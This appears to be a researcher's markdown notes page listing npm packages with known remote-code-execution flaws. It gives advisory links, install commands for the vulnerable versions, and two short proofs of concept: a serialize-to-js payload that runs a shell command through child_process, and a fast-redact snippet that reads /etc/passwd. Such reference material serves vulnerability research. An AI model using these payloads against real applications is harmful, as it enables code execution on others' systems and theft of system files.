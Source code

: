 
To see all versions of a package:

`npm view <package-name>`


### Serialize js 

https://snyk.io/vuln/npm:serialize-to-js:20170208
`npm i serialize-to-js@0.8`

```JavaScript
var serialize = require('serialize-to-js');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.deserialize(payload);
```


### Node Serialize

https://snyk.io/test/npm/node-serialize/0.0.4

`npm install node-serialize`


### Serialize JavaScript

https://snyk.io/vuln/SNYK-JS-SERIALIZEJAVASCRIPT-570062

`npm i serialize-javascript@3.0`


### Safer Eval

https://snyk.io/vuln/SNYK-JS-SAFEREVAL-534901  2019-10769
https://snyk.io/vuln/SNYK-JS-SAFEREVAL-173772  2019-10759
https://snyk.io/vuln/SNYK-JS-SAFEREVAL-473029  2019-10760

### Safe Eval

https://snyk.io/vuln/npm:safe-eval:20170830 2017-16088
https://www.npmjs.com/advisories/1021

### Static Eval

`npm i static-eval` (<2.0.0)

https://snyk.io/vuln/npm:static-eval:20171016    2017-16226
https://snyk.io/vuln/SNYK-JS-STATICEVAL-173693   ---

https://maustin.net/articles/2017-10/static_eval


### Fast Redact

https://itnext.io/how-i-exploited-a-remote-code-execution-vulnerability-in-fast-redact-9e69fa35572f

```
const buffer = Buffer.allocUnsafe(8192)
process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600), buffer, 0, 4096)
console.log(buffer.toString())
```

### MathJS

https://snyk.io/vuln/npm:mathjs:20171118-1   2017-1001003
https://snyk.io/vuln/npm:mathjs:20170331     2017-0331s
https://snyk.io/vuln/npm:mathjs:20171118     2017-1001002
https://snyk.io/vuln/npm:mathjs:20170402    2017-0402s
https://snyk.io/vuln/npm:mathjs:20170527     2017-0527



Helper post:
https://capacitorset.github.io/mathjs/

### Morgan 

https://snyk.io/vuln/SNYK-JS-MORGAN-72579 2019-5413

PoC:
https://hackerone.com/reports/390881

### Other Notes

(For Nikos: https://github.com/bkimminich/juice-shop/issues/269)
